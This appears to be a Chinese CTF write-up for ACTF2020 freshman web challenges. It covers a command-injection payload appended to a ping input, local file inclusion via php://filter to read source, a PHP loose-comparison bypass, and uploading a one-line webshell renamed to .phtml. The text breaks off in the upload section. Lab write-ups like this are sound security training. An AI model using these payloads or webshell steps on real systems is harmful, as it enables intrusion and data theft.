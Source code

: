 ```yaml
---
title: [ACTF2020新生赛]Web汇总
date: 2020-05-10 08:50:47
tags: Web
---
```


## [ACTF2020 新生赛]Web汇总

## Exec

ping命令注入

> '127.0.0.1;''

没有回显

截断符号配合普通命令

发现没有任何屏蔽 

payload：

> 127.0.0.1;cat /flag

拓展：[https://blog.csdn.net/qq_41079177/article/details/88321816](https://blog.csdn.net/qq_41079177/article/details/88321816)

## Include

根据题目和询问可能是 本地文件包含

通过

> php://filter/read=convert.base64-encode/resource=

查看flag.php源码

> ?file=php://filter/read=convert.base64encode/resource=index.php

得到index.php的base64源码 转换

```php
<meta charset="utf8">
<?php
error_reporting(0);
$file =
$_GET["file"];
if(stristr($file,"php://input")
|| stristr($file,"zip://") || stristr($file,"phar://") ||
stristr($file,"data:")){
exit('hacker!');
}
if($file){
include($file);
}else{
echo '<ahref="?file=flag.php">tips</a>';
}
?>
```

 访问 flag

> http://url/?file=php://filter/read=convert.base64-encode/resource=flag.php

## **BackupFile**

根据题目意思得到

> http://url/index.php.bak

下载备份文件

```php
<?php
include_once "flag.php";
if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

> http://url/?key=123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3

报错--Just num!

这里看了wp，查看手册才知道

if 后面的==是弱相等；

这里的字符型被转换成了整型

故?key=123即可

## **Upload**

文件上传漏洞

随便上传一个东西

显示路径

上传一句话木马

抓包修改为phtml后缀 

菜刀连接在根目录得到